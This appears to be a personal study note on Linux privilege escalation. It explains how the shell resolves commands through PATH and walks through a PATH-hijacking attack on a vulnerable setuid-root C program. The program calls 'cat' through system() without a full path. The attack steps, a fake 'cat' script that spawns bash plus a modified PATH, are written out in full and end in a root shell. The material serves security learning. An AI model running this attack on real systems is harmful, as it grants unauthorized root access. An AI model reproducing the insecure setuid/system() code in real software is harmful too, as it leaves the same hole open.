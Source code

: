 [[Privilege Escalation]]

What is **PATH**
You typically write the name of the program. For example, If i want to list out all the files in a given dir. `ls` program as fololws

```
$ls
content     public    thumbnail   video
```

Means that before executing the cmd the shell needs to resolve its full path, which it needs to know where does the progrem resde within the file system. This is where the concept of a PATH comes in.

PATH is an environment variable found within the shell and other processes as well which determines the folders to look in order to resolve command names into full paths.

```
echo $PATH
```

```
/usr/local/sbin
/usr/local/bin
/usr/bin
/opt/cuda/bin
/opt/cuda/nsight_compute
/opt/cuda/nsight_systems/bin:/usr/lib/jvm/default/bin
/usr/bin/site_perl:/usr/bin/vendor_perl
/usr/bin/core_perl
/usr/lib/rustup/bin:/home/leo/utils
/home/leo/go/bin/
```

## How PATH is used
it wills tart from the first folder, and until it has found an `ls` binary, it will keep looking for further folders until all of them have been checked.

Example
1. The Directory is /usr/local/bin, and so the shel lchecks for the existence of the file
```
$ /usr/local/bin/ls
File of directory is not existed
```
2. The directory of /usr/bin, and so the shell checks for the existence of file
```
$ /usr/bin/ls
archive   notes.txt   reader.c
```

`which whoami`
```
/usr/bin/whoami
```
# PATH Hijacking
![[Pasted image 20250525130528.png]]
![[Pasted image 20250525130627.png]]

```
// gcc reader.c -o reader

#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

char *VALID_FILES[] = { "01.txt", "02.txt" };
int valid_files_count = 2;

int main(int argc, char **argv) {

  if (argc < 2) {
    fprintf(stderr, "[INFO]: Usage %s <filename>\n");
    return -1;
  }

  char *user_filename = argv[1];

  for (int i = 0; i < valid_files_count; i++) {
    char *valid_filename = VALID_FILES[i];
    int length = strlen(valid_filename);

    if (!strncmp(user_filename, valid_filename, length)) {
      char cmd[42] = {0};
      sprintf(cmd, "cat ./archive/%s", user_filename);
      setuid(0);
      setgid(0);
      system(cmd);
      return 0;
    }
  }

  printf("[INFO]: No file with such names were found.\n");
  
  return 0;
}
```
As you can see from the code the program is used to read some files within an archive directory, where archive contains a bunch of files which can only be access by root, or by the program itself in read only mode.

try to run the reader which will not run `./reader` and `string reader`. You also need user root in order to open the file.

# PATH Hijacking method
1. Create a malicious bash script and call it `cat` within the current folder
```
echo -en '#!/usr/bin/env sh\n/bin/bash\n' > cat
chmod +x cat
```

**`echo -en`**:

- `-e`: enables interpretation of backslash escapes like `\n`.
    
- `-n`: omits the trailing newline at the end of the output.

```
#!/usr/bin/env sh
/bin/bash

```

**`> cat`**:

- This redirects the output into a new file named `cat` in the current directory.

2. Launch the program with a malicious PATH variable
```
PATH=.:$PATH ./reader 01.txt
```
**`PATH=.:$PATH`**:

- Temporary `.` from the current  directory to the `PATH` variable. 

2. Enjoy the profit
```
$ PATH=.:$PATH ./reader 01.txt
# whoami
root
```


